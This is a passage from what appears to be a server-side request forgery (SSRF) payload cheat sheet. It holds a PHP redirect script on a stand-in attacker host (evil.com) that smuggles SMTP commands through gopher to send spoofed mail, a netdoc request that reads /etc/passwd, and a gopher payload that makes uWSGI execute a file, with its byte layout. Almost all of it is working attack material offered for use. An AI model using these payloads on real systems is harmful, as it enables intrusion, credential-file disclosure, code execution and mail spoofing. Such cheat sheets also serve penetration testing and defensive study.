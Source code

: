 ```
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### **Netdoc**

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

`ssrf.php?url=netdoc:///etc/passwd`

## **SSRF exploiting WSGI**

Exploit using the Gopher protocol, full exploit script available at https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py.

```
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header |  |  |
| --- | --- | --- |
| modifier1 | (1 byte) | 0 (%00) |
| datasize | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte) | 0 (%00) |

| Variable (UWSGI_FILE) |  |  |  |  |
| --- | --- | --- | --- | --- |
| key length | (2 bytes) | 10 | (%0A%00) |  |
| key data | (m bytes) |  | UWSGI_FILE |  |
| value length | (2 bytes) | 12 | (%0C%00) |  |
| value data | (n bytes) |  | /tmp/test.py |  |

## **SSRF exploiting Redis**
